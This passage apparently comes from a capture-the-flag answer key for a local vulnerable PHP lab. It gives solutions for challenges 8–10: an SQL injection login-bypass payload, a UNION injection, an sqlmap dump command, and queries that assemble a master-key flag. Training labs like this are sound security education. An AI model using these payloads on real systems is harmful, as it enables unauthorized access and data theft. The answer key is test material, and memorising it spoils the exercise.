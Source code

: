 **Expected Flag:** From flags.json, challenge ID 5

---

### Challenge 8: SQL Injection Auth Bypass
Try at: `http://localhost:8080/index.php?page=login`

**Payload:**
- Username: `admin' OR '1'='1' --`
- Password: (anything)

**After bypass:**
```sql
SELECT * FROM admin_panel;
```

**Expected Flag:** From flags.json, challenge ID 8

---

### Challenge 9: Blind SQL Injection
Target: `http://localhost:8080/index.php?page=product_detail&id=1`

**Test payload:**
```
id=1 UNION SELECT 1,2,hidden_flag,4,5,6 FROM products--
```

**Or use sqlmap:**
```bash
sqlmap -u "http://localhost:8080/index.php?page=product_detail&id=1" --dump -T products -C hidden_flag
```

**Expected Flag:** From flags.json, challenge ID 9

---

### Challenge 10: Master Key Extraction
```bash
# Use AI tool:
python ai-helpers/log_analyzer.py --user ctf_user --password <from .env>
```

**Or manual:**
```sql
-- Part 1: File
SELECT * FROM file_references WHERE file_type = 'secret';

-- Part 2: Log
SELECT * FROM audit_log WHERE action = 'master_key_fragment';

-- Part 3: Trigger
SHOW CREATE TRIGGER master_key_trigger;

-- Combine all 3 parts to form FLAG{part1_part2_part3}
```
